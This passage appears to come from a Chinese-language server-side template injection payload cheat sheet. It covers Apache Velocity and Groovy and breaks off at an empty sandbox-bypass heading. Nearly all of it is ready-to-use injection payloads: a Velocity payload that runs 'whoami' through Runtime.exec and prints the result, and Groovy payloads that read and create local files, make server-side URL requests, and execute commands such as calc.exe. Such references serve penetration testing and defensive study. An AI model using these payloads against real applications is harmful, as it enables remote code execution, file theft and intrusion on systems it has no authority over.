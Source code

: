 
## Velocity

[官方网站](https://velocity.apache.org/engine/1.7/user-guide.html)

> Velocity 是一个基于Java的模板引擎。它允许网页设计师引用在Java代码中定义的方法。

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---

## Groovy

[官方网站](https://groovy-lang.org/)

### Groovy - 基本注入

参见[groovy-lang.org/syntax](https://groovy-lang.org/syntax.html)，但`${9*9}`是基本注入。

### Groovy - 读取文件

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP 请求

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - 命令执行

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

### Groovy - 砂箱绕过
